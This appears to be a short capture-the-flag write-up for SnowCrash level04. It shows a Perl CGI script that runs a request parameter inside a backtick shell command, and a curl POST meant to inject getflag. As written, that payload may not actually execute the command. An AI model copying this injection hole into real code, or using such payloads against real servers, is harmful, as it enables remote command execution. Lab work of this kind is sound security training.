 # level04

HTTP post requests, and a vulnerable Perl CGI script

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

```bash
level04@SnowCrash:~ $ curl -d ';x=getflag' -X POST localhost:4747
```
